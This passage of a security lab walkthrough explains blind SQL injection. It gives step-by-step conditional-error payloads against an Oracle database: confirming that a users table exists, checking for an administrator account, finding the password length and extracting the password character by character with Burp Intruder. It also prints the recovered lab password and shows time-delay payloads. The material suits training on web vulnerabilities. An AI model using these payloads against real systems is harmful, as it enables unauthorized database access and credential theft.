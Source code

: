 > **Note: The database contains a different table called `users`, with columns called `username` and `password`.**

> **we can confirm that there is a table name called users with this Payload:`'||(SELECT+''+FROM+users+WHERE+ROWNUM+%3d+1)||'`**

![](https://i.ibb.co/GCfH18y/Pasted-image-20210524194312.png)

> **As this query does not return an error, you can infer that this table does exist. Note that the `WHERE ROWNUM = 1` condition is important here to prevent the query from returning more than one row, which would break our concatenation.**

> **Now we cand use a Payload with a true condition to confirm that there is a username called `administrator`: `'||(SELECT+CASE+WHEN+(1%3d1)+THEN+TO_CHAR(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`, Verify that the condition is true we recieve an error message so there is a user called administrator.**

![](https://i.ibb.co/W2Qf24G/Pasted-image-20210524195007.png)

> **Now we need to determine the length of administrator passowrd, and we can do it with this Payload: `'||(SELECT+CASE+WHEN+LENGTH(password)>1+THEN+to_char(1/0)+ELSE+''+END+FROM+users+WHERE+username%3d'administrator')||'`**

![](https://i.ibb.co/k9BkGrc/Pasted-image-20210524195545.png)

> **Change the value to > 20 and we can confirm that the length is 20 by un seeing the error message.**

![](https://i.ibb.co/6RDNWRQ/Pasted-image-20210524195657.png)

> **determining the length of the password, the next step is to test the character at each position to determine its value, and we will use this Payload:`'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`**

> **Send the request to Burp intruder and select attack positions and start the attacks.**

![](https://i.ibb.co/hZXkWZp/Pasted-image-20210524200315.png)

> **administrator:`fwvde94lyvg5scmmfbvh`**

![](https://i.ibb.co/2dj6xS4/Pasted-image-20210524200635.png)

#### Lab C: Blind SQL injection with time delays.

> **In the preceding example, suppose that the application now catches database errors and handles them gracefully. Triggering a database error when the injected SQL query is executed no longer causes any difference in the application's response, so the preceding technique of inducing conditional errors will not work.**
> **`In this situation, it is often possible to exploit the blind SQL injection vulnerability by triggering time delays conditionally, depending on an injected condition. Because SQL queries are generally processed synchronously by the application, delaying the execution of an SQL query will also delay the HTTP response. This allows us to infer the truth of the injected condition based on the time taken before the HTTP response is received.`**
> **Exa:  `'; IF (1=2) WAITFOR DELAY '0:0:10'--`
>  `'; IF (1=1) WAITFOR DELAY '0:0:10'--`
>  The first of these inputs will not trigger a delay, because the condition `1=2` is false. The second input will trigger a delay of 10 seconds, because the condition `1=1` is true.**
